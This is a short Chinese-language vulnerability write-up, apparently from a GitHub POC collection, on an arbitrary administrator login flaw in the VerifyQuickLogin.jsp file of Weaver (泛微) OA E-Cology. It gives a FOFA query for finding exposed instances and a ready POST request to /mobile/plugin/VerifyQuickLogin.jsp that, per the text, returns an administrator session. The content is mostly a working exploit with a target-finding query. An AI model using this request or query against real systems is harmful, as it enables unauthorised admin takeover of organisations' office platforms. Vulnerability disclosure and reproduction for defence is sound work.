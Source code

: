 # 泛微OA E-Cology VerifyQuickLogin.jsp 任意管理员登录漏洞

## 漏洞描述

泛微OA E-Cology VerifyQuickLogin.jsp文件中存在任意管理员登录漏洞，攻击着通过发送特殊的请求包可以获取管理员Session

## 漏洞影响

```
泛微OA E-Cology
```

## FOFA

```
app="泛微-协同办公OA"
```

## 漏洞复现

产品主页

![image-20220824142008751](./images/202208241420826.png)

验证POC

```
POST /mobile/plugin/VerifyQuickLogin.jsp
  
identifier=1&language=1&ipaddress=x.x.x.x
```

![image-20220824142028221](./images/202208241420269.png)